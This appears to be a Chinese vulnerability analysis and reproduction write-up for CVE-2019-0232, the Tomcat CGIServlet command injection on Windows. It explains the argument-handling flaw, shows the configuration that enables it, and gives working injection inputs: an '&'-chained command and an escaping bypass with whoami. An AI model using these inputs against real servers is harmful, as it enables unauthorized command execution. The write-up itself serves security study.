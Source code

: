 # （CVE-2019-0232）Tomcat rce

> 原文：[https://www.zhihuifly.com/t/topic/3202](https://www.zhihuifly.com/t/topic/3202)

# （CVE-2019-0232）Tomcat rce

## 一、漏洞简介

该漏洞是由于Tomcat CGI将命令行参数传递给Windows程序的方式存在错误，使得CGIServlet被命令注入影响。

该漏洞只影响Windows平台，要求启用了CGIServlet和enableCmdLineArguments参数。但是CGIServlet和enableCmdLineArguments参数默认情况下都不启用。

## 二、漏洞影响

Apache Tomcat 9.0.0.M1 to 9.0.17

Apache Tomcat 8.5.0 to 8.5.39

Apache Tomcat 7.0.0 to 7.0.93

## 三、复现过程

### 漏洞分析

漏洞相关的代码在 `tomcat\java\org\apache\catalina\servlets\CGIServlet.java` 中，CGIServlet提供了一个cgi的调用接口，在启用 `enableCmdLineArguments` 参数时，会根据RFC 3875来从Url参数中生成命令行参数，并把参数传递至Java的 `Runtime` 执行。 这个漏洞是因为 `Runtime.getRuntime().exec` 在Windows中和Linux中底层实现不同导致的。下面以一个简单的case来说明这个问题，在Windows下创建arg.bat：

```
rem arg.bat
echo %* 
```

并执行如下的Java代码

```
String [] cmd={"arg.bat", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd); 
```

在Windows下会输出 `arg` 和 `dir` 命令运行后的结果。同样的，用类似的脚本在Linux环境下测试：

```
# arg.sh
for key in "$@"
do
    echo '$@' $key
done
String [] cmd={"arg.sh", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd); 
```

此时的输出为

```
$@ arg
$@ &
$@ dir 
```

导致这种输出的原因是在JDK的实现中 `Runtime.getRuntime().exec` 实际调用了 `ProcessBuilder` ，而后 `ProcessBuilder` 调用 `ProcessImpl`使用系统调用 `vfork` ，把所有参数直接传递至 `execve`。

用 `strace -F -e vfork,execve java Main` 跟踪可以看到上面的Java代码在Linux中调用为

```
execve("arg.sh", ["arg.sh", "arg", "&", "dir"], [/* 23 vars */]) 
```

而如果跟踪类似的PHP代码 `system('a.sh arg & dir');` ，得到的结果为

```
execve("/bin/sh",  ["sh", "-c", "a.sh arg & dir"], [/* 23 vars */]) 
```

所以Java的 `Runtime.getRuntime().exec` 在CGI调用这种情况下很难有命令注入。而Windows中创建进程使用的是 `CreateProcess` ，会将参数合并成字符串，作为 `lpComandLine` 传入 `CreateProcess` 。程序启动后调用 `GetCommandLine` 获取参数，并调用 `CommandLineToArgvW` 传至 argv。在Windows中，当 `CreateProcess` 中的参数为 bat 文件或是 cmd 文件时，会调用 `cmd.exe` , 故最后会变成 `cmd.exe /c "arg.bat & dir"`，而Java的调用过程并没有做任何的转义，所以在Windows下会存在漏洞。

除此之外，Windows在处理参数方面还有一个特性，如果这里只加上简单的转义还是可能被绕过， 例如 `dir "\"&whoami"` 在Linux中是安全的，而在Windows会执行命令。

这是因为Windows在处理命令行参数时，会将 `"` 中的内容拷贝为下一个参数，直到命令行结束或者遇到下一个 `"` ，但是对 `\"` 的处理有误。同样用 `arg.bat` 做测试，可以发现这里只输出了 `\` 。因此在Java中调用批处理或者cmd文件时，需要做合适的参数检查才能避免漏洞出现。

### 漏洞复现

笔者使用的复现环境为9.0.12 + JRE 1.8.0。

首先进行CGI相关的配置，在 `conf/web.xml` 中启用CGIServlet：

```
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>enableCmdLineArguments</param-name>
      <param-value>true</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
    <load-on-startup>5</load-on-startup>
</servlet> 
```

这里主要的设置是 `enableCmdLineArguments` 和 `executable` 两个选项。 `enableCmdLineArguments` 启用后才会将Url中的参数传递到命令行， `executable` 指定了执行的二进制文件，默认是 `perl`，需要置为空才会执行文件本身。

同样在 `conf/web.xml` 中启用cgi的servlet-mapping

```
<servlet-mapping>
    <servlet-name>cgi</servlet-name>
    <url-pattern>/cgi-bin/*</url-pattern>
</servlet-mapping> 
```

之后修改 `conf/context.xml` 的 `` 添加 `privileged="true"`属性，否则会没有权限

```
<Context privileged="true">

```
&lt;WatchedResource&gt;WEB-INF/web.xml&lt;/WatchedResource&gt;
&lt;WatchedResource&gt;WEB-INF/tomcat-web.xml&lt;/WatchedResource&gt;
&lt;WatchedResource&gt;${catalina.base}/conf/web.xml&lt;/WatchedResource&gt; 
``` `</Context>` 
```

然后在 `ROOT\WEB-INF` 下创建 `cgi-bin` 目录, 并在该目录下创建一个内容为 `echo Content-type: text/html` 的 `e.bat` 文件。

配置完成后，启动tomcat，访问 `http://0-sec.org:8080/cgi-bin/e.bat?&ver` ，可以看到命令执行成功。

## 参考链接

> https://xz.aliyun.com/t/4875
